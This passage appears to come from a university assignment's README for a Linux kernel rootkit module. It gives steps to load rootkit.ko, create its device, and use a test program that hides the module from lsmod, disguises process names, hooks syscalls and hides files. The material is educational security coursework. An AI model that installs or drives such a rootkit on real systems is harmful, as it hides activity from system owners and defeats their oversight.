 ```c=
...
out:
	kfree(kdirent);
	return ret;
}
```


## How to use this LKM
### Load My LKM
```bash=
make
sudo insmod rootkit.ko
dmesg | tail
# the following command based on the major number for your device number, for example:
# [  967.511465] The major number for your device is 510
sudo mknod /dev/rootkit c [your major number for your device] 0
```
### Generate files for testing
```bash=
# generate userTest, NTUST, MIT, hsuckd executable files
make generateTestFile
```

```bash=
# Functions corresponding to each executable file in userTest.
$ sudo ./userTest 0 -> IOCTL_MOD_HIDE
$ sudo ./userTest 1 -> IOCTL_MOD_MASQ
$ sudo ./userTest 2 -> IOCTL_MOD_HOOK
$ sudo ./userTest 3 -> IOCTL_FILE_HIDE
```

### Hide/Unhide module (10%)
```bash=
# you will see the rootkit module
lsmod | head

# 0 is the hide/unhiden module function 
sudo ./userTest 0

# you won't see the rootkit module
lsmod | head

# you can use the function again, then you will see rootkit module back
sudo ./userTest 0
```

### Masquerade process name (30%)
```bash=
# execute the program
./NTUST
./MIT

# see their pid and name
ps ao pid,comm


# PID COMMAND
# ...
# 9440 NTUST
# 9441 MIT
# ...
 
```